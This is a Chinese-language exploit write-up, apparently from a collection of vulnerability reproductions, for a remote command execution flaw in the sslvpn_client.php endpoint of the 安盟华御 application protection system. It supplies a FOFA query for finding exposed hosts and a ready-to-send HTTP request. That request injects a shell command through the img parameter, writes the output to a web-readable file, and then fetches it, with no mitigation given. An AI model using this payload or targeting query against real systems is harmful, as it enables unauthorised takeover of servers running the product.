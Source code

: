 # 安盟华御应用防护系统sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
安盟华御应用防护系统sslvpn_client存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 安盟华御应用防护系统

# 三、资产测绘
+ fofa`body="./webui/js/jquerylib/" && icon_hash="-507802195"`
+ 特征![1701771919319-68c717ea-9581-4f52-a6b8-6fe95f714b73.png](./img/I4OS9Z4oQbmjVm3B/1701771919319-68c717ea-9581-4f52-a6b8-6fe95f714b73-598996.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e.png](./img/I4OS9Z4oQbmjVm3B/1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e-372549.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762342384-224cbced-19ed-428d-b26d-9957865251d2.png](./img/I4OS9Z4oQbmjVm3B/1701762342384-224cbced-19ed-428d-b26d-9957865251d2-769183.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cmv6rdoy8wqokzle>